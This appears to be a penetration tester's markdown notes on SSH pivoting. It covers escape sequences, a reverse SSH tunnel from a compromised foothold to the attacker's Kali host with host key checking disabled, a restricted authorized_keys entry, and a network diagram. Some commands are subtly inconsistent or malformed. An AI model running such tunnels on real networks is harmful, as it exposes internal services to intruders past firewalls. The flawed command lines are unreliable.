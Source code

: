 If you do not want to break your ssh connection [konami from SANs](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) discusses using the key seqeunces ssh client:
-  `~.` - terminate connection (and any multiplexed sessions)
-  `~B` - send a BREAK to the remote system
-  `~C` - open a command line
-  `~R` - request rekey
-  `~V/v` - decrease/increase verbosity (LogLevel)
-  `~^Z` - suspend ssh
-  `~#` - list forwarded connections
-  `~&` - background ssh (when waiting for connections to terminate)
-  `~?` - this message
-  `~~` - send the escape character by typing it twice
-   (Note that escapes are only recognized immediately after newline.)


If you need ssh-keys
```bash
ssh-keygen
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 644 id_rsa.pub
```

If running through some shells like Meterpreter we need to have some host key acceptable, without using our Kali Password!
```bash
ssh -f -N -R $kali-port-for-ssh:$ssh-ip-connection:22 -R $kali-port-second-for-Service:$Network-IP:$Service-Port-To-Tunnel-To$ -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@$kali-IP 
```
For the keys and assured non-interactivity of ssh to tunnel correctly:
```bash
mkdir /tmp/key -p; cd keys
ssh-keygen 
#Enter location: /tmp/key/id_rsa
	from="$foothold-ssh-ip",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa $ssh-rsa=$(cat id_rsa) $foothold-user-base-reverse-shell@poornetwork
```
This entry will allow the foothold key owner of the private key to log in to Kali, without RCE-ing ourselves and allows for port forwarding.

Back to the trusty ascii art:
```goat
______	
[[  ]] ---------> {Internet}
/===/				  ^
Attacker			  |
				  	  |										 
		   _______[FIREWALL] 
		  |
______	  |	  ______					  			 ______
[[  ]]<------>[[  ]]-----Not routed to firewall----->[[  ]] 							
/===/		  /===/						 			 [[  ]]	
Client		 Client						  			Server										 
```
